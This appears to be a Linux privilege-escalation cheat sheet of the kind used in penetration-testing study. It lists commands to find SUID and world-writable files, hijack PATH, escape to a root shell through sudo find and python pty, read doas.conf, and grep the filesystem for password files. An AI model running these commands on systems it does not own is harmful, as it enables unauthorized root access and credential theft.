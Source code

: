 SUID
```
    find / -perm -u=s -type f 2>/dev/null

    or

    find / -uid 0 -perm -4000 -type f 2>/dev/null

    or 

    find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;

    Do any of these allow interactive mode or exit to shell?
```

World Writeable Files
```
    find / -perm -2 -type f 2>/dev/null

    Locate files exec as elevated that are world mod and modify (i.e. any cron jobs?)

    Example:

    ls -la /etc/cron.d

    Do any match the world writeable?

```

PATH exploit (if . in path)
```
    Create script with same name as common cmd (i.e. cd, ls, ipconfig)
    Drop script in path
    Note it's a good idea to also run the actual command at end of script
```

SUDO
```
    sudo -l

    Use above files to escape to shell (if applicable)

    sudo find /var -exec sh -i\;

    sudo python -c 'import pty;pty.spawn("/bin/bash");'
```

doas
```
    cat /etc/doas.conf
```

Find password files (locate or find)
```
    locate *password*

    find / -type f -exec grep -i -I "password" {} /dev/null \;
```
